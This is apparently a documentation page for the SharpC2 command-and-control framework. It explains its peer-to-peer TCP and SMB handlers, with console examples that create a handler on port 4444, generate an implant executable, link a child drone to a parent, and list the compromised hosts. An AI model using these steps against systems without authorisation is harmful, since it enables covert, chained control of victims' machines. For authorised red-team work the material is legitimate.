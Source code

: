 # Peer-to-Peer

SharpC2 has built-in TCP & SMB handlers for peer-to-peer C2 between drones.  The handlers don't run on the team server, so the `start` command doesn't actually do anything for these.  They simply acts as templates for payload generation.

```text
[handlers] > create demo-tcp TCP
[+] Handler "demo-tcp" created.

[handlers] > set demo-tcp BindPort 4444
[+] BindPort set to 4444

[handlers] > set demo-tcp LocalhostOnly true
[+] LocalhostOnly set to true
```

```text
[drones] > payload demo-tcp Exe /tmp/tcp-drone.exe
[+] 164352 bytes saved.
```

TCP and SMB drones can be connected to using the `connect` and `link` commands respectively.

```text
[ba60b4aac6] > connect localhost 4444
[+] Tasked Drone to run connect.
[+] Drone checked in.  Sent 192 bytes.
[+] Drone task 758e24e2d9 has completed.
[+] Drone 87fe8b8650 checked in from Daniel@Ghost-Canyon.
```

```text
[drones] > list

Guid        Parent      Address        Hostname      Username  Process     Pid    Integrity  Arch  LastSeen
----        ------      -------        --------      --------  -------     ---    ---------  ----  --------
ba60b4aac6  -           192.168.1.229  Ghost-Canyon  Daniel    http-drone  21964  Medium     x64   24/11/2021 20:23:56
87fe8b8650  ba60b4aac6  192.168.1.229  Ghost-Canyon  Daniel    smb-drone   2988   Medium     x64   24/11/2021 20:23:36
```